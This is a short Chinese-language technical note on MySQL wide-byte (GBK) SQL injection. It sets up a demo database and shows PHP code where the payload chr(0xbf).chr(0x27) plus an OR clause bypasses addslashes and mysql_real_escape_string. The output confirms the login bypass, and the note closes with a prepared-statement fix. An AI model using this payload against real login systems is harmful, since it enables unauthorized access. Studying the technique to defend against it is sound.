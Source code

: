 ```yaml
---
title: "mysql宽字节注入"
date: 2016-03-05 21:01
---
```


## mysql 宽字节注入

## 绕过addslasher和mysql_real_escape_string(Trick)

> 在MYSQL5.5.37-log下该Trick已经被修复了

demo as follow:

* mysql

```mysql 
mysql> create database test_gbk default charset GBK; 
Query OK, 1 row affected (0.00 sec)

mysql> use test_gbk;
Database changed

mysql> CREATE TABLE users (  
    username VARCHAR(32) CHARACTER SET GBK,  
    password VARCHAR(32) CHARACTER SET GBK,  
    PRIMARY KEY (username)  
); 
Query OK, 0 rows affected (0.53 sec)
  
mysql> insert into users SET username='t1', password='t123456';  
Query OK, 1 row affected (0.01 sec)  

mysql> insert into users SET username='t2', password='t223456';  
Query OK, 1 row affected (0.01 sec)
  
mysql> insert into users SET username='t3', password='t33456';  
Query OK, 1 row affected (0.01 sec) 
```

* php

```php
<?php  
echo "PHP version: ".PHP_VERSION."\n";  

# change as yours  
mysql_connect('servername','username','password');  

mysql_select_db("test_gbk");  
mysql_query("SET NAMES GBK");  
  
$_POST['username'] = chr(0xbf).chr(0x27).' OR username = username /*';  
$_POST['password'] = 'guess';  
  
$username = addslashes($_POST['username']);  
$password = addslashes($_POST['password']);  
$sql = "SELECT * FROM  users WHERE  username = '$username' AND password = '$password'";  
$result = mysql_query($sql) or trigger_error(mysql_error().$sql);  
  
var_dump(mysql_num_rows($result));  
var_dump(mysql_client_encoding());  
  
$username = mysql_real_escape_string($_POST['username']);  
$password = mysql_real_escape_string($_POST['password']);  
$sql = "SELECT * FROM  users WHERE  username = '$username' AND password = '$password'";  
$result = mysql_query($sql) or trigger_error(mysql_error().$sql);  
  
var_dump(mysql_num_rows($result));  
var_dump(mysql_client_encoding());  
  
mysql_set_charset("GBK");  
$username = mysql_real_escape_string($_POST['username']);  
$password = mysql_real_escape_string($_POST['password']);  
$sql = "SELECT * FROM  users WHERE  username = '$username' AND password = '$password'";  
$result = mysql_query($sql) or trigger_error(mysql_error().$sql);  
  
var_dump(mysql_num_rows($result));  
var_dump(mysql_client_encoding());  
```

run 

```
$php test_gbk.php

PHP version: 5.2.5  
int(3)  
string(6) "latin1"  
int(3)  
string(6) "latin1"  
int(0)  
string(3) "gbk"
```

使用addslashes还是mysql_real_escape_string,我都可以利用编码的漏洞来实现输入任意密码就能登录服务器的注入攻击！！！！

第三个mysql_real_escape_string之所以能够防注入是因为mysql_escape_string本身并没办法判断当前的编码，必须同时指定服务端的编码和客户端的编码，加上就能防编码问题的注入了

* 解决方案

使用拥有Prepared Statement机制的PDO和MYSQLi来代替mysql_query(注：mysql_query自 PHP 5.5.0 起已废弃，并在将来会被移除)：

PDO：

```php
$pdo = new PDO('mysql:dbname=dbtest;host=127.0.0.1;charset=utf8', 'user', 'pass');  
  
$pdo->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);  
$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);  
$stmt = $pdo->prepare('SELECT * FROM employees WHERE name = :name');  
$stmt->execute(array('name' => $name));  
  
foreach ($stmt as $row) {  
    // do something with $row  
}  
```

MYSQLi：

```
$stmt = $dbConnection->prepare('SELECT * FROM employees WHERE name = ?');  
$stmt->bind_param('s', $name);  
  
$stmt->execute();  
  
$result = $stmt->get_result();  
while ($row = $result->fetch_assoc()) {  
    // do something with $row  
}  
```